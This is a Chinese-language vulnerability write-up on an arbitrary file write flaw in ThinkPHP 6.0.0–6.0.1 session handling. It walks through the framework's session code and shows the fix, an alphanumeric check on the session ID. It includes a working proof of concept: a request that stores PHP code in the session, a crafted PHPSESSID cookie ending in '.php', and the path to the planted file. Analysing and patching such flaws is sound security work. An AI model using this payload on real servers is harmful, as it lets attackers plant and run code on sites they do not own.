 # ThinkPHP6 任意文件操作漏洞分析

## 利用条件

1. ThinkPHP6.0.0-6.0.1
2. 开启Sessoin中间件

## 漏洞复现

官方commit: https://github.com/top-think/framework/commit/1bbe75019ce6c8e0101a6ef73706217e406439f2 

复现环境为:phpstudy+thinkphp6.0.1

`\app\controller\index.php`:

```php
<?php
namespace app\controller;

use app\BaseController;
use think\facade\Session;
class Index extends BaseController
{
    public function index($name)
    {
        Session::set('name', $name);
        return 'hello,' . Session::get('name');;
    }
    
}
```



`\app\middleware.php`

```php
<?php
// 全局中间件定义文件
return [
    // 全局请求缓存
    // \think\middleware\CheckRequestCache::class,
    // 多语言加载
    // \think\middleware\LoadLangPack::class,
//     Session初始化
     \think\middleware\SessionInit::class
];
```





根据漏洞的信息(任意文件操作),我们从`vendor\topthink\framework\src\think\session\Store.php` 的`save`函数开始进行分析

```php
public function save(): void
    {
        $this->clearFlashData();//清除原来的数据

        $sessionId = $this->getId();

        if (!empty($this->data)) {
            $data = $this->serialize($this->data);

            $this->handler->write($sessionId, $data);
        } else {
            $this->handler->delete($sessionId);
        }

        $this->init = false;
    }
```

跟进`$this->handler->write`方法看一下

```php
public function write(string $sessID, string $sessData): bool
    {
        $filename = $this->getFileName($sessID, true);
        $data     = $sessData;

        if ($this->config['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }

        return $this->writeFile($filename, $data);
    }
```

再跟进`$this->writeFile`

```php
protected function writeFile($path, $content): bool
    {
        return (bool) file_put_contents($path, $content, LOCK_EX);
    }
```

因为`$data`可控,那么我们只要能控制`$path`我们就可以写shell进去了

而`$path`由`$this->getFileName($sessID, true);`得到

跟进去

```php
	protected function getFileName(string $name, bool $auto = false): string
    {
        if ($this->config['prefix']) {
            // 使用子目录
            $name = $this->config['prefix'] . DIRECTORY_SEPARATOR . 'sess_' . $name;
        } else {
            $name = 'sess_' . $name;
        }

        $filename = $this->config['path'] . $name;
        $dir      = dirname($filename);

        if ($auto && !is_dir($dir)) {
            try {
                mkdir($dir, 0755, true);
            } catch (\Exception $e) {
                // 创建失败
            }
        }

        return $filename;
    }
```

`$filename`直接由末端拼接参数`$name`

而`write`调用`getFileName`时直接将参数`$sessID`传入,`$sessID`由`$sessionId = $this->getId();`获得

```php
	public function getId(): string
    {
        return $this->id;
    }
```

`$this->id`时通过`setId()`来设置的

```php
	public function setId($id = null): void
    {
        $this->id = is_string($id) && strlen($id) === 32 ? $id : md5(microtime(true) . session_create_id());
    }
```

如果`is_string($id) && strlen($id) === 32 `满足,则直接将`$id`的值赋给`$this->id`

查找调用setId的函数

![image.png](https://i.loli.net/2020/02/01/cAes3Wot8BFbkjP.png)

其中`SessionInit`

```php
	public function handle($request, Closure $next)
    {
        // Session初始化
        $varSessionId = $this->app->config->get('session.var_session_id');
        $cookieName   = $this->session->getName();

        if ($varSessionId && $request->request($varSessionId)) {
            $sessionId = $request->request($varSessionId);
        } else {
            $sessionId = $request->cookie($cookieName);
        }

        if ($sessionId) {
            $this->session->setId($sessionId);
        }
	}
```

查找配置发现`$sessionId`=>`$_COOKIE['PHPSESSID']`

因此构造payload

```
http://127.0.0.1/tp/public/index.php?s=/index/index/&name=%3C?php%20phpinfo();?%3E

Cookie :PHPSESSID=9f7777c08f3909751b148338ba08.php

访问http://127.0.0.1/tp/runtime/session/sess_9f7777c08f3909751b148338ba08.php
```



## 补丁分析

```php
public function setId($id=null):void
{
    $this->id = is_string($id) && strlen($id) === 32 && ctype_alnum($id) ? $id : md5(microtime(true) . session_create_id());
}
```

在`setId`中增加了对`$id`的校验:`ctype_alnum($id)`,只允许数字或字母,来避免任意文件操作



## 参考

 https://paper.seebug.org/1114/#_1 